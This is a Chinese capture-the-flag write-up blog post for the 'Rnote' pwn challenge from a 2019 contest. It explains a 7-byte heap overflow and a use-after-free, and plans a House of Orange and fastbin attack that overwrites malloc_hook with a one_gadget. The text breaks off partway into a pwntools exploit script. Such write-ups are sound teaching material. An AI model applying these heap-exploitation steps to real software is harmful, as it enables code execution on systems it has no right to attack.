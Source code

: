 ```yaml
---
layout: post
title: "19巅峰极客"
date:   2019-10-19 19:00:00
categories: WriteUp
tags: WriteUp 巅峰极客
---
```


* content
{:toc}
重修补课一整天完全没时间去打，赛后复现时才发现不是很难的亚子（千万别挂科（哭



# Rnote
![图片](https://uploader.shimo.im/f/QNWuZetg3XswZv07.png!thumbnail)


防护全开

IDA去分析下基本的功能

![图片](https://uploader.shimo.im/f/GndBMGdo28UiCd5t.png!thumbnail)

基本的菜单框架

![图片](https://uploader.shimo.im/f/0ynBuMLYm1AIod5U.png!thumbnail)


![图片](https://uploader.shimo.im/f/bhc2wEDZdEgbsMA1.png!thumbnail)


![图片](https://uploader.shimo.im/f/GzCaqcpPig4HZagd.png!thumbnail)


![图片](https://uploader.shimo.im/f/c7JpCQAZdxsHsfmY.png!thumbnail)


很容易在edit中看到有个很突兀的if语句，这就造成了一个7byte的溢出，并且没有对edit的块进行check是否free掉所以能考虑修改fastbin的fd为mallochook然后修改onegagdget，由于我们只能操作一个堆，但我们能创建最大的size为0x1000，所以想到用orange来创建一个unsortbin

![图片](https://uploader.shimo.im/f/B6Tbch25wsgyv34O.png!thumbnail)

之后的思路就很简单了

修改fd做uaf去修改malloc_hook为one_gadget

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf=ELF('./pwn')
libc = elf.libc
def regs():
    n.recvuntil('name?')
    n.sendline("nepire")
def choice(idx):
    n.recvuntil('Your choice > ')
    n.sendline(str(idx))
def new(size,content):
    choice(1)
    n.recvuntil("Size >")
    n.sendline(str(size))
    n.recvuntil('Content > ')
    n.send(content)
def show():
```